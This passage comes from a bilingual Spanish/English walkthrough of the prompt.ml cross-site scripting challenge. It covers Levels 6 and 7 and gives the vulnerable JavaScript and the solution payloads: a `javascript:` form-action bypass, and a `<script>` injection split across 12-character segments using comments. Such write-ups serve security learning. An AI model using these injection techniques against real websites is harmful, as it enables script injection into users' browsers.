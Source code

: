```

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}        

```

### Solution
`javascript:prompt(1)#{"action":1}`

>[Top](#index)

## [Level 7]
:es: En este nivel tenemos un tag que se va autogenerando por cada `#` con el que separemos, el cuál solo puede tener 12 chars como máximo.

No hay ningún carácter limitado, por lo que podemos escapar el title con un `"` para a continuación crear nuestro propio tag `<script>` y escribir nuestro code, como el límite está en 12 chars, nuestra inyección no cabe, por lo que tenemos que hacerlo en varias partes, usando `#`, para hacer esto, comentamos el resto de la tag para que a ojos del browser quede como `"><script>/*junk*/prompt(1)/*junk*/</script>`, (comentamos usando `/*` y `*/`.

:uk: In this level we have a tag which gets autogenerated every `#`, which can has only 12 chars at max.

There's no char restriction, so we can just escape this tag with `"` and create a new tag `<script>` and then start injecting our code, as the limit per tag is 12 chars, we have to split the code several times using `#`, we will comment the rest of the tag so it doesn't interfere with our new tag, this way it will look like `"><script>/*junk*/prompt(1)/*junk*/</script>`, (we comment using `/*` and `*/`.

### Code
```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}        
```


[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15
